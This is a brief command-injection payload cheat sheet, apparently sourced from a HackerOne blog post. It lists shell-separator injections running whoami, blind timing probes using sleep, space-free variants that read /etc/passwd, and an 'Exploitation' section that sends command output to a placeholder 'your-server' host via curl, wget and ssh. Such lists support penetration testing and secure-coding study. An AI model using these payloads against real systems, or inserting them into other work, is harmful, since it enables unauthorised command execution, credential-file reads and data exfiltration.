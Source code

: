 # Normal Tests
`` `whoami` ``

;whoami

&& whoami

| whoami

%0a whoami

|| whoami

# For Testing blind Command Injection 
;sleep 5

&& sleep 5

| sleep 5

`` `sleep 5` ``

$(sleep 5)

sleep $(hostname | cut -c 1 | tr a 5) // For getting the output based on the execution time

# Command Injection without Spaces

cat</etc/passwd

ls${IFS}-la

{ls,-la}


# Exploitation

whoami | curl http://your-server -d @-

wget http://your-server/?cmd=$(whoami)

export C=whoami | ssh user@your-server

# Source 
[Thanks to hackerone!](https://www.hackerone.com/blog/how-to-command-injections)
